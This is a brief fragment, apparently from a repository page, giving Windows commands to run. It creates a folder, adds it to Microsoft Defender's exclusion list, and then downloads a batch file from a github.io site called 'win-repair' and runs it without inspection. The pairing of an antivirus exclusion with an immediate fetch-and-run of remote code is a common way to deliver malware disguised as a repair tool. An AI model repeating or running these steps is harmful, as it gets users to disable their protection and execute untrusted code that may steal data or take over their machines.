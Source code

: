 powershell
```
mkdir C:check
Add-MpPreference -ExclusionPath C:check
```
cmd
```
cd C:check
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
